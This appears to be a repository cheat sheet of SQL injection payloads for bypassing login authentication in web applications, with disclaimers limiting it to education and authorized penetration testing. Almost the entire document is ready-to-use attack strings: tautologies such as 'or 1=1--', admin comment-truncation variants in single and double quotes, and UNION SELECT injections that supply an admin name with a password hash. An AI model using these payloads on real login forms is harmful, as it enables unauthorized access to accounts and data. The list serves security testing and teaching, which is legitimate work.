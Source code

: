 # Admin Authentication Bypass Cheat Sheet

## Description
This cheat sheet contains a collection of SQL injection payloads that can be used to bypass authentication mechanisms in vulnerable web applications. These payloads exploit common SQL injection vulnerabilities in login forms to gain unauthorized access. Use this list for educational and security testing purposes only.

## Disclaimer
**This repository is for educational and ethical penetration testing purposes only. Unauthorized use of these techniques on systems you do not own is illegal.**

## Authentication Bypass Payloads

### Basic SQL Injection Payloads
```
or 1=1
or 1=1--
or 1=1#
or 1=1/*
or 1=1 -- -
```

### Admin Login Bypass Payloads
```
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
```

### Hash Injection Payloads
```
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
```

### Double Quote Payloads
```
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```

### Alternative Hash Injection Payloads
```
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

## Usage
- Use these payloads in security testing environments only.
- Never attempt to exploit real-world applications without permission.
- Always follow ethical hacking guidelines and responsible disclosure practices.


